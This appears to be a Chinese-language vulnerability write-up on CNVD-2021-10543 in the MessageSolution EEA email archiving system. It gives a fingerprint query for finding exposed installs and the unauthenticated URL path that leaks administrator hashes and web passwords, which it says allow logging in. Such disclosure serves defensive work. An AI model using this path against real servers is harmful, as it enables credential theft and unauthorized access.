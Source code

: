 # MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

<a-checkbox checked>MessageSolution 企业邮件归档管理系统EEA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="MessageSolution Enterprise Email Archiving (EEA)"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/mess-1.png)



访问如下Url

```plain
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/mess-2.png)



使用获得到的密码可以登录系统

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/mess-3.png)